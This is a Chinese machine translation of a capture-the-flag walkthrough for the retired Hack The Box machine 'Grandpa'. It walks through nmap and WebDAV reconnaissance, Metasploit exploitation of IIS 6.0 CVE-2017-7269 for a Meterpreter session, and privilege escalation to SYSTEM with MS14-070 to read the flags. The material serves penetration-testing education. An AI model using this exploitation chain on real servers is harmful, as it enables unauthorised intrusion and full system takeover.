# 保持冷静，黑盒子-爷爷

> 原文：<https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-grandpa/>

黑客盒子(HTB)是一个在线平台，让你测试你的渗透测试技能。它包含几个不断更新的挑战。有些是模拟真实世界的场景，有些更倾向于 CTF 风格的挑战。

**注**。*只允许报道退役的 HTB 机器。*


爷爷是 Hack The Box 上较简单的机器之一，然而它涵盖了被广泛利用的 CVE-2017-7269。此漏洞很容易被利用，当它成为公开信息时，可以立即访问全球数千台 IIS 服务器

我们将使用以下工具将盒子典当在一个 [Kali Linux 盒子](https://www.kali.org/)上

*   nmap
*   Searchsploit
*   憎恶
*   Metasploit
*   建议利用本地漏洞

让我们开始吧。

我在/etc/hosts 文件中添加了爷爷

```
nano /etc/hosts
```

随着

```
10.10.10.14     grandpa.htb
```



## 第一步-侦察

开发一台机器的第一步是做一些扫描和侦察。

这是最重要的部分之一，因为它将决定你以后可以尝试利用什么。在这个阶段花更多的时间来获取尽可能多的信息总是更好的。

## 端口扫描

我将使用 Nmap(网络映射器)。Nmap 是一个用于网络发现和安全审计的免费开源工具。它使用原始 IP 数据包来确定网络上有哪些主机可用、这些主机提供什么服务、它们运行什么操作系统、使用什么类型的包过滤/防火墙以及许多其他特征。

这个工具有许多命令可以用来扫描网络。如果你想了解更多，你可以看一下文档[这里](https://tools.kali.org/information-gathering/nmap)。



我使用以下命令来执行密集扫描:

```
nmap -A -v grandpa.htb
```

**-A:** 启用操作系统检测、版本检测、脚本扫描和跟踪路由

**-v:** 增加详细级别

**爷爷. htb:** 爷爷盒子的主机名

如果您发现结果有点太多，您可以执行另一个命令来只获取开放的端口。

```
nmap grandpa.htb
```



我们可以看到只有一个开放端口:

****港口** 80** 。超文本传输协议(HTTP)最常用

从 http-server-header 中我们知道服务器是 IIS 6.0。**互联网信息服务** ( **IIS** ，前身为**互联网信息服务器**)是微软为 Windows NT 家族开发的可扩展网络服务器软件。更多信息[点击这里](https://en.wikipedia.org/wiki/Internet_Information_Services)

> 包含在 Windows Server 2003 和 Windows XP Professional x64 Edition 中的 IIS 6.0(代码名为“Duct Tape”)增加了对 IPv6 的支持，并包含一个新的工作进程模型，该模型提高了安全性和可靠性。HTTP.sys 作为 HTTP 请求的 HTTP 特定协议侦听器引入 IIS 6.0 中

我们还可以从 **http-title** 中看到该网站“正在建设中”,并且有一个 **http-webdav-scan** 包含所有允许的方法

我使用 nmap 脚本来尝试获取更多信息。该脚本发送一个选项请求，其中列出了 dav 类型、服务器类型、日期和允许的方法。然后，它发送一个 PROPFIND 请求，并试图通过在响应体中进行模式匹配来获取公开的目录和内部 IP 地址

```
nmap --script http-webdav-scan -p80 grandpa.htb
```

以下是 nmap 网站上关于这个脚本的更多信息



WebDAV 或 **Web 分布式创作和版本控制** ( **WebDAV** )是超文本传输协议的扩展，允许客户端执行远程 Web 内容创作操作。更多信息[点击这里](https://en.wikipedia.org/wiki/WebDAV)

在服务器支持部分我们可以看到微软的 IIS 有一个 WebDAV 模块。

我用 [**davtest**](https://tools.kali.org/web-applications/davtest) 来检查我是否能上传文件



我使用以下命令

```
davtest -url http://10.10.10.14
```



看起来不像。我使用 **Searchsploit** 来检查 IIS 6.0 上是否存在任何已知的漏洞。Searchsploit 是一款针对 **[漏洞数据库](https://www.exploit-db.com/)** 的命令行搜索工具



我使用以下命令

```
searchsploit iis 6.0
```



我可以有更多的利用细节

```
searchsploit -x 41738.py
```



该攻击基于一个[面向返回的编程](https://en.wikipedia.org/wiki/Return-oriented_programming)链。**面向返回的编程** ( **ROP** )是一种安全利用技术，它允许攻击者在存在安全防御(如可执行空间保护和代码签名)的情况下执行代码

您也可以检查**漏洞数据库**来查找漏洞



[https://www.exploit-db.com/search?q=iis+6.0](https://www.exploit-db.com/search?q=iis+6.0)



[https://www.exploit-db.com/exploits/41738](https://www.exploit-db.com/exploits/41738)

**国家漏洞数据库**



[https://nvd.nist.gov/vuln/detail/CVE-2017-7269](https://nvd.nist.gov/vuln/detail/CVE-2017-7269)

**常见漏洞和暴露**数据库



[https://www.cvedetails.com/cve/CVE-2017-7269/](https://www.cvedetails.com/cve/CVE-2017-7269/)

有一个可用的 Metasploit 模块



[https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl)

## 第 2 步-访问网站

我们在访问网站时看到的不多。从开发者控制台，我们可以看到它是由 ASP.NET 框架驱动的



我们将使用 **Metasploit** ，这是一个渗透测试框架，使黑客攻击变得简单。这是许多攻击者和防御者的必备工具


[https://www.metasploit.com/](https://www.metasploit.com/)

我在 Kali 上启动 **Metasploit 框架**,并寻找我应该用来启动漏洞利用的命令



如果我使用这个命令

```
searchsploit iis 6.0
```

我得到了之前从终端得到的相同的表

如果我打字

```
search iis 6.0
```

我得到 174 个结果



我感兴趣的漏洞是这个列表中的第 147 个

如果您想了解一些关于这个漏洞的信息，您可以使用下面的命令

```
info exploit/windows/iis/iis_webdav_scstoragepathfromurl
```

您将获得更多关于该漏洞的详细信息



我使用以下命令来利用漏洞

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
```

我需要在利用漏洞之前设置选项。我用检查选项

```
show options
```



我用下面的命令设置了 **RHOSTS**

```
set RHOSTS 10.10.10.14
```

当我再次检查选项时，我得到了这个



我检查目标是否易受攻击

```
check
```

然后，我用命令运行漏洞利用

```
exploit
```



我得到了一个**米普雷特**会话

从[攻击性安全](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)网站上，我们得到了对 Meterpreter 的定义

> Meterpreter 是一个高级的、可动态扩展的有效负载，它使用*内存中的* DLL 注入阶段，并在运行时通过网络进行扩展。它通过 stager 套接字进行通信，并提供全面的客户端 Ruby API。它具有命令历史，标签完成，渠道，等等。

你可以在这里阅读更多关于 Meterpreter [的信息](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)

让我们从收集一些信息开始

**getuid** 返回调用进程的真实用户 id。我得到的会话似乎没有足够的权限运行此命令。访问被拒绝



当这种情况发生时，我用

```
ps
```

并挑选一个运行**NT AUTHORITY \ NETWORK SERVICE**



我转移到进程 3644

```
migrate 3644
```



现在当我检查 getuid 时，我得到了

```
Server username: NT AUTHORITY\NETWORK SERVICE 
```



这是我在迁移到另一个进程之前首先得到的会话



这是我迁移到另一个进程后得到的会话



我键入以下命令在目标系统上获得标准 shell

```
shell
```



我在机器上用命令检查我是谁

```
whoami
```



我从这台机器上得到更多的信息

```
systeminfo
```



我导航到 **C:\**



然后用**文档和设置**

```
cd "Documents and Settings"
```



我可以看到两个用户- **管理员**和**哈利**。我试着找到哈利。访问被拒绝。管理员文件夹也是如此——这是意料之中的，因为我还没有 root 权限



我用命令退出 shell

```
exit
```



## 步骤 3 -使用本地漏洞利用建议器

我运行 [**本地漏洞利用提示器**](https://www.rapid7.com/db/modules/post/multi/recon/local_exploit_suggester) 。根据用户打开的外壳的体系结构和平台以及 meterpreter 中可用的漏洞来建议利用漏洞

```
run post/multi/recon/local_exploit_suggester
```



我将使用 **MS14-070** 漏洞。我通过以下方式寻找更多关于 **Metasploit** 的信息

```
info exploit/windows/local/ms14_070_tcpip_ioctl
```



以及在网站上



[https://www.rapid7.com/db/modules/exploit/windows/local/ms14_070_tcpip_ioctl](https://www.rapid7.com/db/modules/exploit/windows/local/ms14_070_tcpip_ioctl)

## 步骤 4 -使用 MS14-070 执行权限提升

我用命令将这个会话放在后台

```
background
```



我运行以下命令来使用我发现的漏洞

```
use exploit/windows/local/ms14_070_tcpip_ioctl
```


然后我检查这个漏洞的选项


我将会话设置为

```
set SESSION 1
```


我运行漏洞利用

```
run
```



漏洞利用成功了，但我没有得到一个外壳回来。我检查了选项



并将 LHOST 设置为我的 IP 地址

```
set LHOST 10.10.14.36
```

你可以在这里查看你的



然后，我使用

```
exploit
```



这证实了利用已经成功，但我仍然没有得到一个外壳。我检查了会话

```
sessions -l
```

我应该的

```
NT AUTHORITY\SYSTEM
```



现在不是这样了，所以我回到这个话题

```
sessions -i 1
```



我检查 **getuid** 并取回 **NT AUTHORITY\SYSTEM** 。我在目标系统上得到一个标准 shell，并检查我在机器上是谁。我拿回了 **NT 权限\网络服务**，这不是我想要的！

我退出这个 shell 并检查进程。我可以看到我在这台机器上有管理员权限。我只需要迁移到另一个进程——我就是这样做的

```
migrate 408
```



回到目标系统上的标准 shell，当我在机器上检查我是谁时，我终于是管理员了！

## **步骤 5 -** 寻找 user.txt 标志

我从**文档和设置**中导航到**哈利**文件夹

我可以用下面的命令列出所有的文件/文件夹

```
dir
```

然后我移动到**桌面**



我找到了用户标志！我可以检查文件的内容

```
type user.txt
```



## **步骤 6 -** 寻找 root.txt 标志

让我们现在找到根旗！我导航到**用户**并登记到**管理员** / **桌面**文件夹。我找到旗子了！



我使用以下命令来查看文件的内容

```
type root.txt
```


恭喜你。你找到了两面旗子！

请随时评论、提问或与朋友分享:)

你可以在这里看到更多我的文章

你可以在推特上关注我，也可以在 T2 的 LinkedIn 上关注我

别忘了# **GetSecure** ，# **BeSecure** ，# **StaySecure** ！

* * *

****其他黑盒子文章****

*   [保持冷静，黑掉瘸子](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
*   [保持冷静，黑掉盒子——遗产](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/)
*   保持冷静，黑掉盒子
*   [保持冷静，黑盒子——哔](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-beep/)
*   [保持冷静，黑盒子——最佳](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-optimum/)
*   [保持冷静，黑掉盒子——北极](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-arctic/)

